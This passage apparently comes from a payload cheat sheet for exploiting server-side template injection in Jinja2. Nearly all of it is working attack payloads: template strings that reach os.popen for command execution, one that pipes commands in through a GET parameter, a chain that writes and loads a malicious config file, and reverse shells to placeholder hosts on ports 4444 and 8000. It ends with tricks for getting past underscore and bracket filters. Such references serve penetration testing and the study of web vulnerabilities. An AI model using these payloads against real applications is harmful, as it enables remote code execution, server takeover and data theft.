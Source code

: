 [](#exploit-the-ssti-by-calling-popen-without-guessing-the-offset)

Exploit the SSTI by calling Popen without guessing the offset

    {% for x in ().__class__.__base__.__subclasses__() %}{% if "warning" in x.__name__ %}{{x()._module.__builtins__['__import__']('os').popen("python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect((\"ip\",4444));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call([\"/bin/cat\", \"flag.txt\"]);'").read().zfill(417)}}{%endif%}{% endfor %}

Simply modification of payload to clean up output and facilitate command input ([https://twitter.com/SecGus/status/1198976764351066113](https://twitter.com/SecGus/status/1198976764351066113)) In another GET parameter include a variable named "input" that contains the command you want to run (For example: &input=ls)

    {% for x in ().__class__.__base__.__subclasses__() %}{% if "warning" in x.__name__ %}{{x()._module.__builtins__['__import__']('os').popen(request.args.input).read()}}{%endif%}{%endfor%}

[](#exploit-the-ssti-by-writing-an-evil-config-file)

Exploit the SSTI by writing an evil config file.

    # evil config
    {{ ''.__class__.__mro__[2].__subclasses__()[40]('/tmp/evilconfig.cfg', 'w').write('from subprocess import check_output\n\nRUNCMD = check_output\n') }} 

    # load the evil config
    {{ config.from_pyfile('/tmp/evilconfig.cfg') }}  

    # connect to evil host
    {{ config['RUNCMD']('/bin/bash -c "/bin/bash -i >& /dev/tcp/x.x.x.x/8000 0>&1"',shell=True) }} 

[](#jinja2---filter-bypass)

Jinja2 - Filter bypass

    request.__class__
    request["__class__"]

Bypassing `_`

    http://localhost:5000/?exploit={{request|attr([request.args.usc*2,request.args.class,request.args.usc*2]|join)}}&class=class&usc=_

    {{request|attr([request.args.usc*2,request.args.class,request.args.usc*2]|join)}}
    {{request|attr(["_"*2,"class","_"*2]|join)}}
    {{request|attr(["__","class","__"]|join)}}
    {{request|attr("__class__")}}
    {{request.__class__}}

Bypassing `[` and `]`

    http://localhost:5000/?exploit={{request|attr((request.args.usc*2,request.args.class,request.args.usc*2)|join)}}&class=class&usc=_
    or
    http://localhost:5000/?exploit={{request|attr(request.args.getlist(request.args.l)|join)}}&l=a&a=_&a=_&a=class&a=_&a=_
